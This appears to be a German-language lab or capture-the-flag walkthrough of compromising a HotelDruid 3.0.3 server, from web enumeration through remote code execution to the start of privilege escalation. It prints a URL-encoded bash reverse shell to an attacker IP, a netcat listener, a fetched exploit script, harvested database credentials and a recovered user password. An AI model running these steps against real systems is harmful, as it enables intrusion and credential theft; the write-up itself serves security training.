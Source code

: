 
## Phase 2: Web Enumeration & Initial Access (HotelDruid RCE)

1.  **Anwendungsidentifikation und -Enumeration:**
    *   `nikto` lieferte keine spezifischen Schwachstellen, wies aber auf fehlende Sicherheitsheader hin.
    *   `gobuster dir` enthüllte die Struktur der HotelDruid-Anwendung, einschließlich `/doc/README.english` und `/doc/CHANGELOG`.

2.  **Identifizierung der HotelDruid-Version und Schwachstelle:**
    *   Durch Analyse der Dokumentationsdateien wurde **HotelDruid Version 3.0.3** identifiziert.
    *   Eine Suche auf Exploit-DB ergab den Exploit `50754` für eine Remote Code Execution (RCE) Schwachstelle in `dati/selectappartamenti.php` via `cmd`-Parameter.

3.  **Ausnutzung der RCE:**
    *   Das Exploit-Skript von Exploit-DB (`curl https://www.exploit-db.com/raw/50754 -o hoteldruid.py`) bestätigte die RCE.
    *   Die RCE wurde genutzt, um eine Bash-Reverse-Shell zum Angreifer-System (IP `192.168.2.140`, Port `9001`) zu starten:
        ```bash
        # Aufruf über Browser oder curl (URL-kodiert):
        # http://192.168.2.116/dati/selectappartamenti.php?cmd=%2Fbin%2Fbash%20-c%20%27bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F192.168.2.140%2F9001%200%3E%261%27
        ```
    *   Ein `nc -lvvp 9001` auf dem Angreifer-System empfing die Verbindung. Initialer Zugriff als `www-data` wurde erlangt und die Shell stabilisiert.

---

## Phase 3: Privilege Escalation (Kette)

### www-data zu person (Passwort aus `ttylog`)

1.  **Datenbank-Credentials-Fund:**
    *   Als `www-data` wurde die Datei `/var/www/html/hoteldruid/dati/dati_connessione.php` gefunden, die MySQL-Zugangsdaten enthielt:
        *   Benutzer: `adminh`
        *   Passwort: `adminp`
        *   Host: `localhost:3306`
    *   Ein Login-Versuch als `person` mit dem Passwort `adminp` zur Datenbank scheiterte.

2.  **Fund und Analyse der `ttylog`-Datei:**
    *   Eine Datei `ttylog` (Fundort im Log nicht explizit, vermutlich durch `find`-Suche) wurde vom Zielsystem zum Angreifer-System übertragen (mittels `python3 -m http.server` und `wget`).
    *   Die Analyse der `ttylog`-Datei mit `strings` und `ttyplay` enthüllte das Klartext-Passwort für den Benutzer `person`:
        `Endur4nc3.`
